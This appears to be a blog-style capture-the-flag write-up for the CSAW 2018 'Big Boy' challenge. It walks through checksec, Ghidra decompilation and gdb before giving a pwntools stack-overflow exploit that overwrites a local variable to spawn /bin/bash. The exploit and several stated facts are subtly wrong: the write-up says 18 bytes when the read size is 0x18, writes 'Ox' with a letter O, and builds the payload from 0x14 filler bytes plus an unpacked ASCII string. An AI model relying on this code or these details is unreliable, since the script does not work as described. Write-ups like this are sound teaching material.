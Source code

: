 ```yaml
---
layout: post
title: CSAW 2018 Qualifiers - Big Boy
date: 2023-12-6
categories: [CTF, Binary Exploitation]
tags: [CTF]     
---
```



Let's start by taking a look at the file

```
 $  pwn checksec boi

[*] '/home/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It seems that we are dealing with a 64-bit binary with a non-executable stack and a stack canary. Let's try running it

```
$   ./boi

Are you a big boiiiii??
Not really
Wed Dec  6 16:45:04 EET 2023
```

The executable prompted us for input, then returned the current date and time. If we take a look at the main function in Ghidra

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 Input;
  undefined8 local_30;
  undefined4 uStack_28;
  int Target;
  undefined4 local_20;
  long StackCanary;
  
  StackCanary = *(long *)(in_FS_OFFSET + 0x28);
  Input = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  Target = -0x21524111;
  puts("Are you a big boiiiii??");
  read(0,&Input,0x18);
  if (Target == -0x350c4512) {
     run_cmd("/bin/bash");
  }
  else {
     run_cmd("/bin/date");
  }
  if (StackCanary != *(long *)(in_FS_OFFSET + 0x28)) {
                            /* WARNING: Subroutine does not return */
     __stack_chk_fail();
  }
  return 0;
}
```

We see that the code:

- initializes the integer `Target` with the value `-0x21524111` 
- prints out "Are you a big boiiiii??" using `puts()` 
- reads 18 bytes from our input
- Checks to see if the value of `Target` is `-0x350c4512`
- If true, opens a shell
- If false, prints the current date

To complete this challange, we have to overwrite the value of `Target` and set it to `OxCAF3BAEE` (the unsigned equivalent of`-0x350c4512`). That would result in the binary running `/bin/bash/`. From Ghidra, we can see where the comparison is taking place. 

![Ghidra](/assets/Image8.png)

Let's use gdb to set a breakpoint at that address, then run the binary.

```
$ gdb boi

gdb > break *0x4006a5
gdb > run
Are you a big boiiiii??
yea
```

We notice that our input is 14 bytes away from the value of `Target`.

![pwngdb](/assets/Image9.png)

We can create an exploit which will send 18 bytes (maximum we are allowed) where 14 bytes are the filler needed to reach `Target` and the last 4 bytes are `OxCAF3BAEE`, which would overwrite `0xDEADBEEF`

```python
from pwn import *

# Establish the target process
target = process('./boi')

# The payload consists of 14 filler bytes and the 4 byte integer we overwrite target with
payload = "0"*0x14 + "0xcaf3baee"

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```